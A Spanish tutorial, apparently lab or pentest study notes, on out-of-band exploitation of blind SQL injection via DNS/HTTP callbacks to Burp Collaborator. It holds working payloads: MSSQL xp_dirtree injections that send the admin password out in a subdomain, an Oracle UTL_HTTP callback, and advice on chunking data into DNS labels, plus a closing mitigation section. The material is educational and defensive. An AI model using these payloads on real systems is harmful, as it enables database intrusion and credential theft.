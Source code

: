 # Explotación Blind SQLi mediante técnicas Out‑Of‑Band

---



OAST se refiere a técnicas que provocan **interacciones de red salientes** desde el sistema objetivo hacia un servidor controlado por el atacante (DNS, HTTP, SMB, etc.).

Cuando la app ejecuta la consulta vulnerable en un hilo separado (consulta original en un hilo y consulta de cookie en un nuevo hilo) o su respuesta no depende de la ejecución de esa query, las técnicas tradicionales (ver/errores/tiempos) no funcionan. OAST permite detectar y exfiltrar datos mediante la observación de interacciones externas provocadas por la base de datos vulnerable.

Las interacciones más fiables suelen usar **DNS** porque muchas redes permiten peticiones DNS salientes y los resolvers realizarán la consulta por el atacante (o por un servicio como Burp Collaborator) incluso si otros protocolos están bloqueados.

`Nota`: Resolver es el componente que recibe una consulta DNS y se encarga de resolverla paso a paso hasta obtener la respuesta final. Es el intermediario entre tu sistema y los servidores autoritativos que contienen la información real.

---

## Herramientas útiles

* **Burp Collaborator**: servicio que genera subdominios únicos y registra cualquier interacción DNS/HTTP/SMTP/SMB/etc. Burp Professional integra un cliente que automatiza la comprobación. Ideal para labs y pentests.
[Burp Collaborator doc](https://portswigger.net/burp/documentation/desktop/tools/collaborator)
* **Otras opciones públicas/privadas**: Interactsh, Canarytokens, servicios DNS propios. En pruebas autorizadas puedes correr tu propio servidor DNS y recoger solicitudes.

---

## Flujo general de un ataque OAST

1. **Generás un identificador único** (p. ej. `abc123.attacker.com`) usando Collaborator o tu servidor.
2. **Construís un payload** que haga que la base de datos realice una consulta DNS/HTTP hacia ese host cuando se cumpla una condición o para incorporar datos (exfil).
3. **Envíás la petición** vulnerable (por ejemplo con cookie TrackingId inyectado).
4. **Observás en Collaborator** si llega una petición DNS/HTTP con el subdominio generado; si llega, confirmás que la inyección fue ejecutada y, dependiendo del payload, obtendrás datos (por ejemplo el valor de una columna en el subdominio).

---

## Efectividad

* Las resoluciones DNS a menudo son permitidas en egress.
* Las consultas DNS transportan texto en el nombre de dominio, por lo que puedes meter fragmentos de datos (hex/base32) en el subdominio.
* Un solo evento DNS confirma ejecución remota y puede contener información exfiltrada.

---

## Ejemplos de técnicas por SGBD

### 5.1 Microsoft SQL Server (T‑SQL)

Funciones/procs que pueden ejecutar acciones que causan consultas DNS/SMB:

* `xp_dirtree`, `xp_subdirs`, `xp_fileexist`, `xp_cmdshell` (si están habilitadas) pueden provocar accesos a rutas UNC que a su vez generan resoluciones DNS/SMB en el lado de un resolver o controlador.

**Ejemplo (xp_dirtree hacia un host controlado por Collaborator):**

```sql
'; exec master..xp_dirtree '//<UNIQUE_ID>.collaborator.net/a'--
```

* El primer `//` indica una ruta UNC; el servicio de resolución intentará resolver `<UNIQUE_ID>.collaborator.net` y esto aparece en Collaborator.
* `xp_cmdshell` también puede usarse para ejecutar `nslookup` o `ping` hacia el dominio si está habilitado (máximo privilegio requerido).

**Exfiltración de datos concatenados (ejemplo):**

```sql
'; DECLARE @p varchar(8000); SET @p=(SELECT TOP 1 password FROM users WHERE username='admin'); EXEC('master..xp_dirtree "//'+@p+'.<UNIQUE>.collaborator.net/a"')--
```

Esto coloca la contraseña en el subdominio y desencadena la resolución.

**Notas:** muchos entornos deshabilitan `xp_*` o `xp_cmdshell` por seguridad; funciona cuando están presentes y la DB tiene permisos.

### MySQL

MySQL no tiene procedimientos extendidos de Windows integrados, pero puedes forzar peticiones HTTP/DNS si el servidor tiene UDFs (user defined functions) o si el servidor hace peticiones fuera de banda mediante funciones específicas (raro en entornos administrados).
Una técnica más común es crear una consulta que invoque funciones XML que a su vez contacten hosts (depende de configuración) o usar herramientas intermedias si tienes comandos.

### PostgreSQL

* Postgres no tiene procedimientos equivalentes a `xp_cmdshell` por defecto, pero extensiones (pwned envs) o funciones `COPY TO PROGRAM` (si habilitado) pueden ejecutar comandos.
* Alternativa: usar funciones `dblink` o `postgres_fdw` si están disponibles y apuntarlas a un servidor que provoque un lookup remoto.

### Oracle

* Oracle puede usar `UTL_HTTP.REQUEST` para hacer peticiones HTTP salientes si el DB tiene permisos y la ACL de red lo permite.
* Otra vía es `UTL_INADDR.get_host_address` (dependiendo de versión/configuración), que puede provocar resolución DNS.

**Ejemplo Oracle (conceptual):**

```sql
' || UTL_HTTP.request('http://<UNIQUE>.collaborator.net/') || '
```

### Resumen práctico

* En Windows SQL Server, `xp_dirtree`/`xp_cmdshell` son las opciones más directas para DNS/SMB OAST.
* En Oracle/Postgres/MySQL, a menudo se requiere privilegios/funciones/extensiones para las peticiones OOB; sin ellos, OAST puede no ser viable.

---

## Formas de exfiltrar datos en la interacción OOB

* **Embed en subdominio:** `password.<HEX>.collaborator.net` (codifica/segmenta datos largos).
* **Hashing / encoding:** conviene hex/base32/base64 o URL‑safe para evitar caracteres prohibidos en nombres DNS y para dividir en chunks.
* **Segmentación:** si el dato es largo, envíalo en varios intentos (por ejemplo: `1-<chunk1>.<UNIQUE>...`, `2-<chunk2>...`).

**Ejemplo encadenado (MSSQL):**

```sql
'; DECLARE @p varchar(8000);SET @p=(SELECT TOP 1 password FROM users WHERE username='admin');EXEC('master..xp_dirtree "//'+CONVERT(varchar(200), HASHBYTES('MD5',@p),2)+'.<UNIQUE>.collaborator.net/a"')--
```

Aquí se envía un hash (reduce tamaño y evita caracteres problemáticos).

---

## Práctica en Burp Collaborator

1. Generá un nuevo payload OAST en Collaborator o usa el cliente integrado en Burp.
2. Inserta el subdominio único en tu payload según SGBD.
3. Envía la petición vulnerable.
4. Pollea Collaborator: si hay una entrada de tipo DNS/HTTP/SMB con tu ID, la inyección fue ejecutada y posiblemente hayas exfiltrado datos.

**Importante:** Collaborator registra peticiones y te muestra la fuente, el tipo y el contenido (cuando aplica).

---

## Limitaciones, detección y contradicciones

* **Privilegios**: muchas técnicas requieren funciones o procedimientos privilegiados (xp_*, utl_http, etc.).
* **Firewalls / egress filtering**: si el entorno bloquea egress DNS o fuerza resolvers internos sin salida, OAST puede fallar.
* **WAF / detección**: patrones UNC `//host/...` o llamadas a `xp_cmdshell` suelen ser detectadas.
* **Tamaño**: los registros DNS limitan la longitud de cada label (~63 bytes) y del dominio total (~253 bytes), por lo que hay que fragmentar datos.
* **Ruido**: muchas resoluciones internas o caching pueden complicar correlación; usar IDs únicos ayuda.

---

## Detección y mitigación

* **Egress filtering**: bloquear/detección de resoluciones DNS no autorizadas y restringir salidas HTTP/SMB.
* **Principle of least privilege**: deshabilitar `xp_cmdshell`, restringir `UTL_HTTP`, evitar extensiones no necesarias.
* **Registro y alerta**: monitorizar patrones inusuales (resoluciones a dominios raros, invocaciones a funciones peligrosas).
* **WAF/IPS tuning**: detectar y bloquear patrones UNC/`xp_*` y payloads con subdominios dinámicos.

---


